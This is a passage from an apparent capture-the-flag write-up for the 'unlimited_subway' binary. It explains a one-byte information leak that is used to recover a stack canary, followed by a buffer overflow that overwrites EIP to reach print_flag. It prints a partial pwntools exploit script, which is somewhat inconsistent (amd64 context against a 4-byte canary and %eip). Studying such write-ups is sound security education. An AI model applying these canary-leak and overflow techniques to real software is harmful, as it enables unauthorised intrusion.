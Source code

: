 {% Highlight C %}
int __cdecl view_account(int a1, int a2)
{
  return printf("Index %d : %02x\n", a2, *(unsigned __int8 *)(a2 + a1));
}
{% endhighlight %}

Since the function leaked only 1 byte each time it gets called, we need to leak the canary which have 4 bytes length, then we can trigger the buffer overflow and overwrite the canary and `%eip` to `print_flag` which give us the flag we're looking. Here are the full exploit details of that challenge

{% Highlight python %}
from pwn import *

r = process("./share/unlimited_subway")

#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="info",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./share/unlimited_subway")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = []
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return

def fill(data):
    r.sendlineafter(b"> ",b"F")
    r.sendlineafter(b"Data :",str(data))

def view(idx):
    r.sendlineafter(b"> ",b"V")
    r.sendlineafter(b"Index :",str(idx))
    return r.recvline().split()[3]

def done(size, payload):
    r.sendlineafter(b"> ",b"E")
    r.sendlineafter(b"Name Size :",str(size))
    r.sendlineafter(b"Name :",(payload))

def exploit(r):
    attach(r)
    fill("ARSALAN")
    canary_leak = b"0x"

    canary_leak += (view(131))
    canary_leak += (view(130))
    canary_leak += (view(129))
    canary_leak += (view(128))
